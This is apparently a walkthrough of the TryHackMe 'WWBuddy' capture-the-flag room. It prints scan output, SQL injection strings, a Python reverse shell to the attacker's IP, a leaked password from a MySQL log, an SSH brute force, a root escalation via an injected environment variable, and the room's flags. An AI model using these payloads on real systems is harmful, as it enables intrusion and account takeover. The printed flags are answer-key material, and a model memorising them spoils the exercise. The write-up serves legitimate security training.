

# WWBuddy

Exploit this website still in development and root the room.

[WWBuddy](https://tryhackme.com/room/wwbuddy)

## Topic's

- Network Enumeration
- Web Enumeration
- Cross-site Scripting
- Brute Forcing (SSH)
- Exploiting PATH Variable

## Appendix archive

Password: `1 kn0w 1 5h0uldn'7!`

## Task 1 WWBuddy

World wide buddy is a site for making friends, but it's still unfinished and it has some security flaws.

Deploy the machine and find the flags hidden in the room!

This is my first room, hope you like it :D

```
kali@kali:~/CTFs/tryhackme/WWBuddy$ sudo nmap -A -sS -sC -sV -O 10.10.217.243
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-13 13:33 CEST
Nmap scan report for 10.10.217.243
Host is up (0.053s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 66:75:21:b4:93:4a:a5:a7:df:f4:01:80:19:cf:ff:ad (RSA)
|   256 a6:dd:30:3b:e4:96:ba:ab:5f:04:3b:9e:9e:92:b7:c0 (ECDSA)
|_  256 04:22:f0:d2:b0:34:45:d4:e5:4d:ad:a2:7d:cd:00:41 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Login
|_Requested resource was http://10.10.217.243/login/
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/13%OT=22%CT=1%CU=33595%PV=Y%DS=2%DC=T%G=Y%TM=5F8590
OS:B8%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST
OS:11NW7%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)EC
OS:N(R=Y%DF=Y%T=40%W=F507%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 143/tcp)
HOP RTT      ADDRESS
1   35.53 ms 10.8.0.1
2   66.15 ms 10.10.217.243

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.36 seconds
```

```
kali@kali:~/CTFs/tryhackme/WWBuddy$ gobuster dir -h http://10.10.217.243 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
Uses directory/file brutceforcing mode

Usage:
  gobuster dir [flags]

Flags:
  -f, --addslash                      Apped / to each request
  -c, --cookies string                Cookies to use for the requests
  -e, --expanded                      Expanded mode, print full URLs
  -x, --extensions string             File extension(s) to search for
  -r, --followredirect                Follow redirects
  -H, --headers stringArray           Specify HTTP headers, -H 'Header1: val1' -H 'Header2: val2'
  -h, --help                          help for dir
  -l, --includelength                 Include the length of the body in the output
  -k, --insecuressl                   Skip SSL certificate verification
  -n, --nostatus                      Don't print status codes
  -P, --password string               Password for Basic Auth
  -p, --proxy string                  Proxy to use for requests [http(s)://host:port]
  -s, --statuscodes string            Positive status codes (will be overwritten with statuscodesblacklist if set) (default "200,204,301,302,307,401,403")
  -b, --statuscodesblacklist string   Negative status codes (will override statuscodes if set)
      --timeout duration              HTTP Timeout (default 10s)
  -u, --url string                    The target URL
  -a, --useragent string              Set the User-Agent string (default "gobuster/3.0.1")
  -U, --username string               Username for Basic Auth
      --wildcard                      Force continued operation when wildcard found

Global Flags:
  -z, --noprogress        Don't display progress
  -o, --output string     Output file to write results to (defaults to stdout)
  -q, --quiet             Don't print the banner and other noise
  -t, --threads int       Number of concurrent threads (default 10)
  -v, --verbose           Verbose output (errors)
  -w, --wordlist string   Path to the wordlist
kali@kali:~/CTFs/tryhackme/WWBuddy$ gobuster dir -u http://10.10.217.243 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.217.243
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/10/13 13:35:39 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/admin (Status: 301)
/api (Status: 301)
/change (Status: 301)
/images (Status: 301)
/index.php (Status: 302)
/js (Status: 301)
/login (Status: 301)
/profile (Status: 301)
/register (Status: 301)
/server-status (Status: 403)
/styles (Status: 301)
===============================================================
2020/10/13 13:35:57 Finished
===============================================================
```

[http://10.10.217.243/admin/](http://10.10.217.243/admin/)

`You dont have permissions to access this file, this incident will be reported.`

[http://10.10.217.243/admin/access.log](http://10.10.217.243/admin/access.log)

```
192.168.0.139 2020-07-24 22:54:34 WWBuddy fc18e5f4aa09bbbb7fdedf5e277dda00
192.168.0.139 2020-07-24 22:56:09 Roberto b5ea6181006480438019e76f8100249e
10.8.106.222 2020-10-13 11:36:46
```

[http://10.10.217.243/login/](http://10.10.217.243/login/)

- [WWBuddy](http://10.10.217.243/profile/?uid=fc18e5f4aa09bbbb7fdedf5e277dda00)
- [Roberto](http://10.10.217.243/profile/?uid=b5ea6181006480438019e76f8100249e)

[http://10.10.217.243/change/](http://10.10.217.243/change/)

- Change Username: `' or 1=1 -- -`
- Change Password: `' or 1=1 -- -`



[http://10.10.217.243/admin/](http://10.10.217.243/admin/)

```
Hey Henry, i didn't made the admin functions for this page yet, but at least you can see who's trying to sniff into our site here.
192.168.0.139 2020-07-24 22:54:34 WWBuddy fc18e5f4aa09bbbb7fdedf5e277dda00
192.168.0.139 2020-07-24 22:56:09 Roberto b5ea6181006480438019e76f8100249e
10.8.106.222 2020-10-13 11:36:46
```

```
python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.8.106.222%22,9001));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27
```

```
$ cat /var/log/mysql/general.log
/usr/sbin/mysqld, Version: 5.7.30-0ubuntu0.18.04.1 ((Ubuntu)). started with:
Tcp port: 3306  Unix socket: /var/run/mysqld/mysqld.sock
Time                 Id Command    Argument
2020-07-25T14:35:56.331972Z         6 Query     show global variables where Variable_Name like "%general%"
2020-07-25T14:36:04.753758Z         6 Quit
2020-07-25T14:41:25.299513Z         8 Connect   root@localhost on  using Socket
2020-07-25T14:41:25.299556Z         8 Connect   Access denied for user 'root'@'localhost' (using password: YES)
2020-07-25T14:41:25.309432Z         9 Connect   root@localhost on  using Socket
2020-07-25T14:41:25.309467Z         9 Connect   Access denied for user 'root'@'localhost' (using password: YES)
2020-07-25T14:41:25.317881Z        10 Connect   root@localhost on  using Socket
2020-07-25T14:41:25.317916Z        10 Connect   Access denied for user 'root'@'localhost' (using password: NO)
2020-07-25T14:56:02.127981Z        11 Connect   root@localhost on app using Socket
2020-07-25T14:56:02.128534Z        11 Quit
2020-07-25T15:01:40.140340Z        12 Connect   root@localhost on app using Socket
2020-07-25T15:01:40.143115Z        12 Prepare   SELECT id, username, password FROM users WHERE username = ?
2020-07-25T15:01:40.143760Z        12 Execute   SELECT id, username, password FROM users WHERE username = 'RobertoyVnocsXsf%X68wf'
2020-07-25T15:01:40.147944Z        12 Close stmt
2020-07-25T15:01:40.148109Z        12 Quit
2020-07-25T15:02:00.018314Z        13 Connect   root@localhost on app using Socket
2020-07-25T15:02:00.018975Z        13 Prepare   SELECT id, username, password FROM users WHERE username = ?
2020-07-25T15:02:00.019056Z        13 Execute   SELECT id, username, password FROM users WHERE username = 'Roberto'
2020-07-25T15:02:00.089575Z        13 Close stmt
2020-07-25T15:02:00.089631Z        13 Quit
2020-07-25T15:02:00.093503Z        14 Connect   root@localhost on app using Socket
2020-07-25T15:02:00.093662Z        14 Query     SELECT name FROM countries
2020-07-25T15:02:00.094135Z        14 Query     SELECT country, email, birthday, description FROM users WHERE id = 'b5ea6181006480438019e76f8100249e'
2020-07-25T15:02:00.096687Z        14 Query     SELECT * FROM messages WHERE sender = 'b5ea6181006480438019e76f8100249e' OR receiver = 'b5ea6181006480438019e76f8100249e'
2020-07-25T15:02:00.097056Z        14 Query     SELECT id,username FROM users WHERE id IN ('fc18e5f4aa09bbbb7fdedf5e277dda00', 'be3308759688f3008d01a7ab12041198') ORDER BY username
2020-07-25T15:02:00.097174Z        14 Quit
2020-07-25T15:06:48.352118Z        15 Connect   root@localhost on app using Socket
2020-07-25T15:06:48.352492Z        15 Quit
```

`RobertoyVnocsXsf%X68wf`

```
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@wwbuddy:/var/www/html/admin$ su - roberto
su - roberto
Password: yVnocsXsf%X68wf
$ whoami
whoami
roberto
$ cd ~
cd ~
$ pwd
pwd
/home/roberto
$ ls
ls
importante.txt
$ cat importante.txt
cat importante.txt
A Jenny vai ficar muito feliz quando ela descobrir que foi contratada :DD

Não esquecer que semana que vem ela faz 26 anos, quando ela ver o presente que eu comprei pra ela, talvez ela até anima de ir em um encontro comigo.


THM{g4d0_d+_kkkk}
```

```
kali@kali:~/CTFs/tryhackme/WWBuddy$ hydra -f -l jenny -P pass.txt -t 64 10.10.217.243 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-13 14:24:02
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 9 tasks per 1 server, overall 9 tasks, 9 login tries (l:1/p:9), ~1 try per task
[DATA] attacking ssh://10.10.217.243:22/
[22][ssh] host: 10.10.217.243   login: jenny   password: 08/03/1994
[STATUS] attack finished for 10.10.217.243 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-13 14:24:03
```

```
jenny@wwbuddy:~$ echo $USER
jenny
jenny@wwbuddy:~$ export USER="jenny; bash"
jenny@wwbuddy:~$ authenticate
root@wwbuddy:~# cd /root
root@wwbuddy:/root# ls
root.txt
root@wwbuddy:/root# cat root.txt
THM{ch4ng3_th3_3nv1r0nm3nt}
```

[view-source:http://10.10.217.243/admin/index.php](view-source:http://10.10.217.243/admin/index.php)

1. Website flag

`THM{d0nt_try_4nyth1ng_funny}`

2. User flag

`THM{g4d0_d+_kkkk}`

3. Root flag

`THM{ch4ng3_th3_3nv1r0nm3nt}`
